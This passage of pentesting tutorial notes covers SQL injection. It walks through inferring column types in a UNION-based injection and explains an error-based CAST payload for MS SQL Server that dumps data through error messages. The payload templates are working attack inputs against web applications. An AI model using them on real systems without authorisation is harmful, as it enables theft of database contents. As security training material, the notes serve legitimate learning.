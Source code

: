 
Finding the data types used in queries is, once again, a cyclical process. We have to:
```
Substitute one of the null fields in our payload with a constant
If the constant type used is correct, the query will work
If the type is wrong the web app will output an error or misbehave
```

We found an in-band SQL injection with two fields:
```
' UNION SELECT null, null; -- -
```

So we try to test if the first field is an integer by sending:
```
' UNION SELECT 1, null; -- -
```

If the web app works correctly we can assume that the first field is an integer so we proceed to:
```
' UNION SELECT 1, 1; -- -
```

If we get an error, or the application misbehaves, then the second field is not an integer therefore, we can move on to:
```
' UNION SELECT 1, 'a'; -- -       
```

### Dumping the Database Content
- After finding out the number of columns and their types, its possible to extract information about the database, the server and the database data.


## Exploiting Error Based SQL Injections

- Are another way to retrieve data from the database. While they do not ask For data directly, they actually use some advanced DBMS functions to trigger an error. The error message contains the information the pentester is aiming For.
- Most of the times the error message is reflected on the web app output but, it could also be embedded in an email message or appended to a log file. It depends on how the web app is configured.
- Error-based SQL injection is one of the fastest ways to extract data from a database. Its available on DBMS such as Oracle, PostgreSQL and MS SQL server.

- MS SQL SERVER
	reveals the name of database objects within error messages.
	the first piece of information we would like to know is the database version so that we can build our exploits accordingly.

### The CAST technique
```
999999 or 1 in (SELECT TOP 1 CAST (<FIELDNAME> as varchar (4096)) from <TABLENAME> WHERE <FIELDNAME> NOT IN (<LIST>)); -- -
```

```
This payload is used as input to the vulnerable parameter of the web app: asp?id=<payload>
99999 is just a bogus value, you can put anything here, provided that its not an id present in the database (we want OR part of the SQL query to be executed, so the first condition should be FALSE)
or 1 in = Will trigger the error, we are asking the db to look For integer value 1 within a varchar column,
CAST (<FIELDNAME> as varchar (4096)) = We insert the column that we want to dump.
<FIELDNAME> can be a SQL function like user_name() or a variable like @@version.
WHERE <FIELDNAME> NOT IN (<LIST>) = This part can be ommited/adjusted at our disposal according to which table our searched fieldname value belongs to.
```
